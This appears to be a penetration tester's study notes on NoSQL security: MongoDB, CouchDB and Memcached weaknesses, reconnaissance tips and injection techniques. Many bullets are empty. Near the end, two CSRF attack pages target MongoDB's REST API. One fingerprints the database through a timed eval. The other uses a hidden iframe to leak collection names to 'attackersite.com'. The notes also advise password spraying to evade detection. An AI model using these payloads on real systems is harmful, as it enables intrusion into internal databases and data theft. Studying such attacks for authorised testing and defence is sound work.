






---


[TOC]


### Introduction


> Different IT needs => different requirements and different business objectives and different budgets and different technologies

> NoSQL databases used by powerful organizations worldwide :
>
> 
>
> * **Mongo** => is being used by ADP, Cisco, Forbes, IBM and McAfee
> * **Couchbase** => is being used by BMW, U.S. Senate, Comcast and Starbucks
> * **Elasticsearch** => is being used by Github, Netflix and XING


* NoSQL => non SQL [also can be called Not Only SQL]
* NoSQL database is a **data-storing** and **data-retrieving** system that is modeled differently than the tabular (and relations-based) relational databases.
* 
* NoSQL => open source license model,  but one can also come across commercial distributions.


* Simplicity 
* Speed of Processing
* Scalability 
* Ingestion that occurs at high rates
* Schema-free data models
* Complex object storing and processing





> Great Resource  => https://www.slideshare.net/felixgessert/nosql-data-stores-in-research-and-practice-icde-2016-tutorial-extended-version-75275720


* First identify => **NoSQL vendor and Version**
* Once the vendor and version are determined
  * then focus on to turn this information to  identifying vulnerabilities within the particular NoSQL version and the underlying source code
* Need to check for  *publicly known vulnerabilities related to that specific version*
* Also try to understand the source code by provoking error messages
  * Here proviking can be done by Fuzzing request components/parameter
* Need to do information gathering about various components of the NoSQL database.
* This Information Gathering include =>
  * enumerating user accounts
  * enumerating web server
  * enumerating NoSQL Database settings
  * enumerate common misconfigurations
  * enumerate URLs related to specific NoSQL databases => which might reveal effective attack paths.
* After Information Gathering phase , next phase will be => Exploitation Phase using information we gathered
* In case a NoSQL database is protected via an authentication mechanism, then try to
  * password spraying instead of  brute-force attacks 
  * so that to avoid detection
* If in-scope, we can also use a NoSQL database as an oracle, to identify valid user accounts on a system


---


### NoSQL Fundamentals & Security


* MongoDB => most widely-deployed NoSQL Database and also  leading Document (BSON-encoded) database.
* 
* 
* 
* SQL logical commands are also mapped to MongoDB(JS), as follows.
  * 
* 
* 
* 
* 


* MongoDB configuration file => **mongodb.conf or mongod.conf**
  * https://docs.mongodb.com/manual/reference/configuration-options/
  * It contains interesting information like
    * where the database files are located (dbpath option)
  * Analyzing a  MongoDB configuration file, may reveal new attack paths.


* 

* ### MongoDB's Security Posture

  * MongoDB **doesn't provide** *authentication and access control*, **by default**
    * all resources are available from within an authenticated session
    * Both authentication and access control are supported and can be enabled though
    * **MongoDB's RBAC can be enabled via the *-auth flag* or via *security.authorization.***
      * Enabling RBAC will result in resources and actions being mapped to roles.
  * MongoDB **doesn't enforce** *TLS communications*, **by default.**
    * Communications over TLS are supported though
    * Configuring TLS **was added from version 3.0 onwards**
    * **MiTM attacks** are subsequently possible by an attacker at a privileged network position.
  * **Encryption**  for data at rest is also not provided, by default
    * It is supported though
    * Key management and the less secure option of a local keyfile are both supported to facilitate the encryption of data at rest.
  * By *default*, **the MongoDB service used to bind to all available interfaces**.
    * Not a good practice, if one considers to install MongoDB on a dual-homed machine for example
    * This behavior was then **altered** and the configuration file can be used to offer better isolation
      * https://www.mongodb.com/blog/post/update-how-to-avoid-a-malicious-attack-that-ransoms-your-data
    * **The old behavior can be met even today though,** due to poor security practices and quick-fixing methods.
  * 
  * 
  * 
    * 
    * 
    * Default installation is very common
    * 
    * 
    * 

* 


* Great Talk => http://blog.ptsecurity.com/2012/11/attacking-mongodb.html


* Metasploit Scanner => https://www.rapid7.com/db/modules/auxiliary/scanner/mongodb/mongodb_login
  * This scanner is good for checking passwords, when authentication is enabled
  * Don't offer much regarding default behavior like password-less access
  * Can use script => https://www.trustwave.com/resources/spiderlabs-blog/mongodb---security-weaknesses-in-a-typical-nosql-database/


* 
* 
* 


* ### CouchDB's Security Posture

  * 
  * 
  * CVE => https://bugzilla.redhat.com/show_bug.cgi?id=1516979   [CVE-2017-12635]
    * contains some CouchDB internals
    * https://justi.cz/security/2017/11/14/couchdb-rce-npm.html


* Real life exploitation example
* Suppose we have en endpoint  = **search.php**
  * providing search functionality
* Its default error message is **"Error: Document ID is empty (errcode=0)"**
* So, it will telling that  this is a NoSQL Document Store database in the backend.
* If we try to search for something we know it doesn’t exist in the database, we get the following.
  * 
* 
* 
* 
* 


* 
* 


* 
* 
* 
* 
* 
* 


* 
* 
* 
* 
  * http://niiconsulting.com/checkmate/2013/05/memcache-exploit/


* Let's , we identified   an exposed Memcached server running at **port 11211.**
* Then, next => First interact with it 
  * 
* 
* 
* 
* 
* 
* 
* 
* 
* 
* 
* 
* 
* 
* 


* 
* 
* 
* 
* 
* 
* 
* 
* 


---


### NoSQL Exploitation


* 
* 


* Unfortunately, there is such a thing as NoSQL injection. The root cause of NoSQL injection is:

  * NoSQL is more than **"key-value"** pairs.
  * Some of the **NoSQL** databases, have to deal with values that are actually very complex data types, like JSON.
  * **Parsing or deserializing**  such data can cause isssues

* ### Examples 1 =>

  * 
  * 
  * 
  * 
  * 


* ### Example 2 =>

  * 
  * 
  * 
  * 
  * 


* Great resource => https://arxiv.org/ftp/arxiv/papers/1506/1506.04082.pdf
* For NoSQL Databases , we need to know about the *concept of drivers*
* **Access to a NoSQL database is achieved through a *driver*.**
* **A driver**, 
  * wraps around protocols and provides libraries to a number of different NoSQL database clients in a multitude of language
* 
* 
* 
* 
* 
* 


> Let's go through each NoSQL attack category.

> Suppose we have a **MongoDB database** and the following insert statement and query.


```
db.articles.insert({ title: 'Hacking the grid', author: 'Hacker X' })

db.articles.find({ title: 'Hacking the grid' })
```


* 
* 
* 
* 
* 
* 


* 
* 
* 
* 


* 
* 
* 
* 
* 
* 
* 


* 
* 
* 
* 
* 
* 
  * http://www.blackhat.com/docs/us-14/materials/us-14-Novikov-The-New-Page-Of-Injections-Book-Memcached-Injections-WP.pdf
* 
* 
* 


> Let's now see a real-life Piggybacked Query attack.


```
Suppose we are performing a penetration test against a given application.

It is common to practice to FUZZ all the available pieces of a request.

We can try NoSQL injection payloads
```


* 
* 
* 
* 
* 
* 
* 


> Great Resource for Memcached Injection =>
>
>
> https://www.blackhat.com/docs/us-14/materials/us-14-Novikov-The-New-Page-Of-Injections-Book-Memcached-Injections-WP.pdf


> https://github.com/mongodb-labs/sleepy.mongoose


* 
* 
* 
* 


* Previous example attack works but still not much helpful for pentester as that attack will not give anything useful
  * Why ? => Because of  Same Origin Policy,
    * that forbids the reading of responses in the case of cross-origin requests.
* Suppose we have Mongo database (with its REST API enabled), residing in a corporation’s intranet, behind a firewall.
* There is a number of techniques, using which we can exfiltrate data after we attack the REST API, bypassing the Same Origin Policy


* This CSRF-based attack, is executed through an attacker controlled website featuring the following JavaScript code.

* 

* 

* 

* 

* 

* 

* ```
  <html>
  <body>
  <div>
  To check IP <input value = "127.0.0.1" id = "ip"> for version
  <select id = "version">
  <option value = "2">2</option>
  <option value = "3">3</option>
  </select>
  click on <button onclick = "check()">check</button>
  </div>
  <script>
  function check() {
  target_ip = document.getElementById('ip').value
  console.log(target_ip);
  version = document.getElementById('version').value
  first_date = Date.now()
  attack_iframe = document.createElement('iframe');
  document.body.appendChild(attack_iframe);
  attack_iframe.style = "visibility:hidden;";
  attack_iframe.onload = function(){
  second_date = Date.now()
  time = second_date-first_date;
  console.log(time)
  if(time > 2000) {
  alert('Possible match.\nThere might be mongodb '+version+'.x on IP '+target_ip+'\nPlease consider to deactivate it as database commands can be issued even if it\'s just a testing environment.') }
  else {
  alert('There is either no mongodb running on '+target_ip+',\nit wasn\'t started with --rest,\na different port is used\nor another problem occurred') } }
  url = 'http://'+target_ip+':28017/admin/$cmd/?filter_eval=function(){if(db.version().charAt(0)=='+version+'){sleep(2000)}}&limit=1';
  console.log(url);
  attack_iframe.src=url; }
  </script>
  </body>
  </html>
  ```

  


* 

* 

* 

* 

* ```
  <html>
  Remote host collection cloning
  <head>
  from the specified host.
  <title>Tempting Title</title>
  </head>
  <body>
  <textarea></textarea>
  <iframe src =
  'http://127.0.0.1:28017/test/$cmd/?filter_eval=ret="collections_";db.getCollectionNames().forEach(function(x){ret=ret%2bx%2b"."});{db.runCommand({cloneC
  ollection:"",from:ret%2b"version_."%2bdb.version()%2b".attackersite.com:27017",query:{}})}&limit=1' style = "visibility: hidden"></iframe>
  </body>
  </html>
  ```


* ### NoSQL Injection In MEAN Stack Applications

  * > Let's see some examples

  * 

  * 

  * 

  * 

  * 

  * 

  * 

  * 


---

